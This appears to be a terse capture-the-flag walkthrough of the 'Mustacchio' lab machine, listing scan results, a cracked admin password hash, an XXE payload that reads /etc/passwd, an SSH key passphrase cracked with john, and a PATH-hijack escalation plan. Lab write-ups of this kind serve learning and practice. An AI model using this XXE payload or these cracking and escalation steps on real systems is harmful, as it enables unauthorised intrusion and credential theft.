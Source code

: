 	Apache/2.4.18 (Ubuntu) Server at 10.10.54.217 Port 80</
#	/contact input fields
/custom/js contains users.bak - sqlite db backup

22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
8765/tcp open  http    nginx 1.10.3 (Ubuntu) - ADMIN PANEL 
|_http-title: Mustacchio | Login

admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b - sql db dump
Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
result - bulldog19 

admin panel submit empty comment => Insert XML Code!

/assets nginx path 403
## barry user ssh key

comment in adminpanel source code in response after submit comment request
//document.cookie = "Example=/auth/dontforget.bak";
in dontforget.bak file is an xml form for admin panel comment
will try to get barry's ssh key via xxe
/etc/passwd file retrieved via xxe payload:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>


barry clad
joe hamd

barry's private ssh key needs passphrase -> cracked via ssh2john >> crackme -> john --wordlist=$ROCKYOU crackme

ssh password: urieljames

linux seems to be hardened a bit, no sudo password very little vectors
utilize the joes live log binary and override where tail binary is pulled from $PATH to escalate
